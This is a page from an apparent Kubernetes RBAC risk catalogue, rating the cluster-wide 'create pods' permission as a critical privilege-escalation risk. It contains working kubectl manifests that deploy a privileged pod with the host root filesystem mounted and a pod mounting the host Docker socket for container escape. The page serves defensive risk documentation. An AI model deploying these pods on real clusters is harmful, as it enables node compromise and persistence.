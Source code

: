 ```yaml
---
id: 1006
title: "Create pods cluster-wide"
description: "Allows creating new pods in any namespace across the cluster. This is highly critical as it can be used to deploy pods with elevated privileges (e.g., hostPath mounts, privileged security context), leading to node compromise, cluster-wide code execution, and establishing persistence."
category: Elevation of Privilege
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                                                     |
| ------------- | ------------------------------------------------------------------------------------------------------------------------- |
| ID            | 1006                                                                                                                      |
| Name          | Create pods cluster-wide                                                                                                  |
| Risk Category | Elevation of Privilege                                                                                                    |
| Risk Level    | {{< risk Critical >}}                                                                                                     |
| Role Type     | ClusterRole                                                                                                               |
| API Groups    | core                                                                                                                      |
| Resources     | pods                                                                                                                      |
| Verbs         | create                                                                                                                    |
| Tags          | {{< tag "LateralMovement" >}} {{< tag "Persistence" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "WorkloadExecution" >}} |

## Description

Allows creating new pods in any namespace across the cluster. This is highly critical as it can be used to deploy pods with elevated privileges (e.g., hostPath mounts, privileged security context), leading to node compromise, cluster-wide code execution, and establishing persistence.

## Abuse Scenarios

1. Create a privileged pod with hostPath access to the node's root filesystem.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: privileged-attacker-pod
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: attacker
    image: busybox
    command: ["/bin/sh", "-c", "sleep infinity"]
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: host-root
  volumes:
  - name: host-root
    hostPath:
      path: /
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF

```

2. Create a pod that mounts the host's Docker socket for container escape.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: docker-socket-pod
spec:
  containers:
  - name: docker-client
    image: docker
    command: ["/bin/sh", "-c", "sleep infinity"]
    volumeMounts:
    - mountPath: /var/run/docker.sock
      name: docker-socket
  volumes:
  - name: docker-socket
    hostPath:
      path: /var/run/docker.sock
EOF

```
